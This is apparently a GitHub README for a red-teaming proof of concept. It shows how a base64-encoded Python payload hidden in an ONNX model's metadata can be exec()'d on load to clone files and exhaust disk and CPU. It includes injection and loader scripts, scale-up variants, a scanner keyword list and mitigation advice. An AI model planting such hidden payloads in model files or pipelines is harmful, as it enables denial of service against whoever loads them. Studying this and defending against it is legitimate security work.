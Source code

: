 # AI-ML-Security---Red-Teaming-Malicious-ONNX-DDOS-Hidden-Payload-
Proof-of-concept ONNX exploit demonstrating how base64-obfuscated Python payloads embedded in model metadata can trigger file cloning and resource exhaustion — simulating a stealthy DDoS attack vector in ML pipelines.

# 📦 What is ONNX?
ONNX (Open Neural Network Exchange) is a widely adopted format that allows interoperability between different machine learning frameworks. ONNX models are composed of computation graphs, weights, and optional metadata fields (metadata_props), which can be used to store additional information like author, version, or tags.

However, these metadata fields are unregulated and can be misused to embed arbitrary, obfuscated Python code — turning a legitimate model into a vector for resource-based attacks.

# 🚨 Exploit Overview: Metadata-Based Payload for DDoS via File Cloning
In this proof-of-concept, a Python payload is injected into an ONNX model’s metadata_props. The payload is Base64-encoded and embedded under the "run" key.

# 💣 Behavior Upon Execution:
When executed (via exec()), the payload:

1. Creates 10 copies of the infected model using shutil.copyfile().
2. Writes files named copy_0.onnx to copy_9.onnx.
3. Repeats the I/O operation, causing disk consumption and CPU load.
4. Although harmless in appearance, when done repeatedly or at scale, this becomes a Denial of Service (DoS) vector.

# 🔬 Attack Flow
1. Payload Injection into Model
   
<pre> <code>```python # inject_payload.py import onnx from onnx import helper import base64 # Load existing ONNX model model = onnx.load("model_base.onnx") # Define raw Python payload (to create 10 copies of the model) raw_payload = ''' import shutil for i in range(10): shutil.copyfile("infected_model.onnx", f"copy_{i}.onnx") ''' # Encode payload in Base64 and inject into metadata encoded_payload = base64.b64encode(raw_payload.encode()).decode() model.metadata_props.append(helper.StringStringEntryProto(key="run", value=encoded_payload)) # Save the infected model onnx.save(model, "infected_model.onnx") print("[+] Payload injected successfully.") ```</code> </pre>

2. Payload Triggered on Load
   
<pre> <code>```python # simulate_load.py import onnx import base64 # Load the infected ONNX model model = onnx.load("infected_model.onnx") # Execute the payload from metadata for prop in model.metadata_props: if prop.key == "run": exec(base64.b64decode(prop.value)) ```</code> </pre>

# 🧪 Test Results
Upon loading:
  - Ten ONNX file clones are written to disk.
  - No warnings or alerts are triggered by onnx.load().
  - Resource usage spikes momentarily (disk I/O and CPU).
When deployed at scale (e.g., multiple users loading the model in parallel), this results in:
  - Disk exhaustion
  - Performance degradation
  - Potential system instability

<img width="626" height="396" alt="image" src="https://github.com/user-attachments/assets/21fab848-f54e-404b-babc-0585d88a4072" />


# ☠️ Real-World Impact
# 🔄 Distributed Denial of Service (DDoS)
If the model is distributed via public platforms (e.g., Hugging Face, GitHub) and integrated into automated pipelines, this small-scale clone script can amplify across many machines, leading to a distributed attack.

# 💡 Variants
1. Cloning thousands of files recursively.
2. Creating infinite loops or massive memory buffers.
3. Recursive payload execution (multi-layered propagation).

# 🛡️ Mitigation & Defense Strategies
1. ❌ Never Execute Model Metadata
Avoid exec()/eval() on metadata fields at all costs. Treat metadata as non-executable strings.

# 2. 🔍 Metadata Auditing
Implement scanners to detect:
- Suspicious keywords: exec, import, os, shutil, base64, etc.
- Base64 strings with decode patterns.
- Abnormally large metadata fields.

# 3. 🧪 Model Sandbox Execution
Use containerized environments (e.g., Docker) with strict resource limits for testing model behavior.

# 4. 🔐 Use Trusted Repositories
Only use ONNX models from official or verified sources. Treat user-uploaded models as potentially malicious.

# 5. 🧰 Secure Model Pipeline
Add:
  - Metadata sanitization tools.
  - Digital signature validation.
  - Structural validation before inference deployment.

# ⚠️ Disclaimer
This repository is intended for educational and research purposes only.
The author disclaims all liability for any misuse of the code or technique.
Do not use this method in real-world environments or production systems.






      
